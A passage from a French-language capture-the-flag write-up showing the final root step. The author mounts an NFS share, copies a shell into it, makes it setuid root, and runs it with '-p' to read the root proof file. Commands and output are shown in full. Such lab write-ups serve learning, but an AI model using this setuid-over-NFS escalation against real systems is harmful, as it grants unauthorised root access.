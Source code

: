 ```shellsession
      READY AND WAITING FOR NFS CLIENT CONNECTIONS
==================================================================
```

Le partage est monté en lecture seule (je n'ai pas modifié la config par défaut qui est indiquée dans la ligne de commande) du coup j'ai recopié le */usr/bin/sh* de la VM dans le partage via SSH puis j'ai fait le `chown root:root` puis `chmod 4755` qu'il fallait.

```shellsession
$ sudo /usr/sbin/mount.nfs 192.168.56.1:/tmp/jail /mnt
$ cd /mnt
$ ls -al
total 124
drwxr-xr-x  1 ppp  users      4 Nov  5 20:56 .
drwxr-xr-x 18 root root    4096 Nov 15  2020 ..
-rwsr-xr-x  1 root root  121464 Nov  5 20:56 sh
$ ./sh -p
# id
uid=1001(fox) gid=1001(fox) euid=0(root) groups=1001(fox)
# cd /root
# ls
proof.txt
# cat proof.txt
e2178ca6963e4ce1d88a10ec030097ff
```

Un CTF fort sympathique avec un peu de développement et la découverte de nouveaux outils.
